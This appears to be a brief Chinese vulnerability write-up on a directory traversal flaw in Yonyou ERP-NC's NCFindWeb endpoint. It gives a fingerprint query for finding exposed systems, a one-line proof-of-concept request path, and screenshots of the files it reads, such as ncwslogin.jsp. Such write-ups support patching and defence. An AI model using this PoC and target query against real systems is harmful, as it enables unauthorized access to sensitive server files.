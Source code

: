# 用友 ERP-NC NCFindWeb 目录遍历漏洞

## 漏洞描述

用友ERP-NC 存在目录遍历漏洞，攻击者可以通过目录遍历获取敏感文件信息

## 漏洞影响

<a-checkbox checked>用友ERP-NC</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="用友-UFIDA-NC"</a-checkbox></br>

## 漏洞复现

POC为

```plain
/NCFindWeb?service=IPreAlertConfigService&filename=
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/yongyou-8.png)



查看 ncwslogin.jsp 文件



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/yongyou-9.png)